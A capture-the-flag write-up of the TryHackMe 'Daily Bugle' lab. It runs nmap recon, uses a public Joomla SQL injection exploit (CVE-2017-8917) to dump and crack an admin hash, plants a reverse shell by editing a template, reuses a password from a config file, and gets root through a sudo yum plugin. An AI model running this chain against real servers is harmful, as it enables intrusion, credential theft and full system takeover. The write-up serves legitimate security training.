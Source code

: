 # Daily Bugle

"Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum."

## Preparation

Added IP to /etc/hosts as "daily.hack"

## Recon

Identifying OS with ping.
```
monty@localhost:~/ctfs/thm/daily-bugle$ ping daily.hack
...
64 bytes from daily.hack (10.10.150.4): icmp_seq=2 ttl=61 time=340 ms
```

61 TTL, likely Linux.

Identifying open ports (from default 1000).
```
nmap -r -v -A -oA recon/nmap/1000-fingerprinting daily.hack
...
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)                                                                    
| ssh-hostkey:                                                                                                       
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management 
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/  
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```

Identifying all open ports.
```
nmap -r -v -p- -T4 -oA recon/nmap/allports daily.hack
...
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```
No new ports.

Running searchsploit on the nmap output.
```
searchsploit --nmap recon/nmap/1000-fingerprinting.xml
```

Nothing sticks out. Poking around the webserver.

### HTTP (80/TCP)

Landing page contains a login form and a possible username: "Written by Super User"

Joomla login page at: http://daily.hack/administrator/index.php (found via robots.txt)

Found administrator subdirectory that is public: http://daily.hack/administrator/templates/isis/images/ (found with OWASP ZAP)

The files were created in April 2017, looking at Joomla releases. It is likely 3.7 given that the files were last modified the same day that 3.7 released.

## Cracking the Perimeter

Googling "Joomla SQL Injection" returns the following CVE: CVE-2017-8917

Used https://github.com/XiphosResearch/exploits/tree/master/Joomblah

```
python joomblah.py http://daily.hack/
...
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

```
monty@localhost:~/ctfs/thm/daily-bugle/ctp$ hashid jonah.hash 
--File 'jonah.hash'--
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'jonah.hash'--monty@localhost:~/ctfs/thm/daily-bugle/ctp$ hashcat --example-hashes | grep -A 2 -B 2 'Blowfish(OpenBSD)'
monty@localhost:~/ctfs/thm/daily-bugle/ctp$ hashcat --example-hashes | grep -A 2 -B 2 'Blowfish'

MODE: 3200
TYPE: bcrypt $2*$, Blowfish (Unix)
HASH: $2a$05$MBCzKhG1KhezLh.0LRa0Kuw12nLJtpHy6DIaU.JAnqJUDYspHC.Ou
PASS: hashcat
```

Looks like Blowfish.
```
hashcat --session=daily-bugle -a 0 -m 3200 jonah.hash /home/monty/ctfs/htb/challenges/you-know-0xdiablos/rockyou.txt
```

Cracked: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123

jonah:spiderman123

Logged into the Joomla admin panel with those credentials: http://daily.hack/administrator/index.php

Looks like we can upload files under "Media", trying a PHP webshell, using shellclip to generate.

Cannot get them to upload, tried the following:
rev.inc
rev.phtml
rev.png
rev.jpg
rev.php5
rev.php
rev.php2
rev.php4
rev.php3

Editing the index.php file in template beez3 to be a reverse shell. Clicked "Template Preview" to execute. Got a shell.

## Privilege Escalation

We cannot sudo, no interesting SUIDs.

Uploaded linpeas.sh

```
bash linpeas.sh
...
[+] Useful software                                                                                                  
/usr/bin/nmap
...
[+] Searching passwords in config PHP files
public $password = 'nv5uz9r3ZEDzVjNu';
...
[+] Analyzing .service files
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#services
/var/www/html/libraries/joomla/http/transport/cacert.pem                                                                      
```

Looking for any interesting files owned by jjameson and SSH files.

```
bash-4.2$ find / -type f -user jjameson 2> /dev/null
/var/spool/mail/jjameson
bash-4.2$ cat /var/spool/mail/jjameson
cat: /var/spool/mail/jjameson: Permission denied
bash-4.2$ ls /home/jjameson/.ssh
ls: cannot access /home/jjameson/.ssh: Permission denied
bash-4.2$ cat /home/jjameson/.ssh/id_rsa
cat: /home/jjameson/.ssh/id_rsa: Permission denied
bash-4.2$ cat /home/jjameson/.ssh/id_rsa.pub
cat: /home/jjameson/.ssh/id_rsa.pub: Permission denied
```

nv5uz9r3ZEDzVjNu is the password to jjameson (ssh enabled)

local:jjameson:nv5uz9r3ZEDzVjNu

/home/jjameson/user.txt

Checking sudo
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Used GTFOBins template for creating a plugin that execute /bin/sh
```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

Got root.
```
sh-4.2# id; hostname
uid=0(root) gid=0(root) groups=0(root)
dailybugle
```